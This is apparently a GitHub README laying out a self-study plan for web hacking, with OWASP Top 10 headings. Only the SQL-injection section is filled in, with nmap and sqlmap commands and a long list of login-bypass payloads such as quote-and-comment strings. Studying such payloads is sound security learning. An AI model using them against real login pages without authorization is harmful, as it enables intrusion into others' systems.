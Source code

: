 # Hacking Guide For Script Kiddies  

>
![Ricard Feynman](https://yahooeysblog.files.wordpress.com/2015/06/richard-feynman-curiosity.jpg)
>

## What is it?

>
>This is my study plan for going from zero knowledge (self-taught) to be an Omniscient.
>
![I don't know what I'm supposed to do](https://i.pinimg.com/originals/6e/3b/9d/6e3b9d51461add09fd38c50f43ab7f2c.gif)
>
> Created this as a cheat sheat for any script kiddies to study any topics
---

## Table of Contents

### 1st Year (2020)

- [What is it?](#what-is-it)
- [Why use it?](#why-use-it)
- [How to use it?](#how-to-use-it)
- [Everything you need to know about Programming](#everything-you-need-to-know-about-programming)
- [Hack like a Pro](#hack-like-a-pro)

### 2nd Year (2021)

- [OWASP](#owasp)
  - [Injection](#injection)
  - [Broken Authentication](#broken-authentication)
  - [Sensitive Data Exposure](#sensitive-data-exposure)
  - [XML External Entity](#xml-external-entity)
  - [Broken Access Control](#broken-access-control)
  - [Security Misconfiguration](#security-misconfiguration)
  - [Cross-site Scripting](#cross-site-scripting)
  - [Insecure Deserialization](#insecure-deserialization)
  - [Components with Known Vulnerabilities](#components-with-known-vulnerabilities)
  - [Insufficent Logging & Monitoring](#insufficent-logging-and-monitoring)

# 1st Year

## Why use it?

When I started this project, I didn't know about absolutely anything, didn't know Coding or even Hacking.

![Absolutely Nothing](http://www.quickmeme.com/img/1c/1c83e1c0388b35d43f2401543c9e214fb31892cec0d3966c7fe11955b5efe18f.jpg)

It's a long plan. It may take years. If you are familiar with a lot of this already it will take you a lot less time.

## How to use it?

Open any repositories that you interested and *read* it, It's already have guide on how to tackle the topics.

## Everything you need to know about Programming

- [ ] [Repo related to programming](https://github.com/g3nj1z/everything-you-need-to-know-about-programming)

## Hack like a Pro

- [ ] [Repo related to hacking](https://github.com/g3nj1z/hack-like-a-pro)

# 2nd Year
After a year of exploring in IT security. I have become lazy to copy and paste. Instead, I'll put the links that will help to go through the related topics.

## OWASP

### Injection

[SQL INJECTION - PORTSWINGER](https://portswigger.net/web-security/sql-injection)

- Enum using nmap
  >
  > nmap -sV --script=http-sql-injection <target>
  >
- Using jsql
- Using sqlmap with login-page
- Capture the request using burp suite, and save the request in a file.
  >
  > sqlmap -r request.txt
  >
- Crawl a page to find sql-injection.
  >
  > sqlmap -u http://example.com --crawl=1
  >
- Login bypass
  >
  > ‘or 1=1- -
  >
  >‘ or ‘1’=1
  >
  >‘ or ‘1’=1 - -
  >
  >‘–
  >
  >' or '1'='1
  >
  >-'
  >
  >' '
  >
  >'&'
  >
  >'^'
  >
  >'*'
  >
  >' or ''-'
  >
  >' or '' '
  >
  >' or ''&'
  >
  >' or ''^'`
  >
  >`’ or ‘‘*’
  >
  >"-"
  >
  >" "
  >
  >"&"
  >
  >"^"
  >
  >"*"
  >
  >" or ""-"
  >
  >" or "" "
  >
  >" or ""&"
  >
  >" or ""^"
  >
  >" or ""*"
  >
  >or true--
  >
  >" or true--
  >
  >' or true--
  >
  >") or true--
  >
  >') or true--
  >
  >' or 'x'='x
  >
  >') or ('x')=('x
  >
  >')) or (('x'))=(('x
  >
  >" or "x"="x
  >
  >") or ("x")=("x
  >
  >")) or (("x"))=(("x
  >
- known Username
  >
  >admin’ - -
  >
  >admin’) - -
  >

### Broken Authentication

### Sensitive Data Exposure

### XML External Entity

### Broken Access Control

### Security Misconfiguration

### Cross-site Scripting

### Insecure Deserialization

### Components with Known Vulnerabilities

### Insufficent Logging & Monitoring
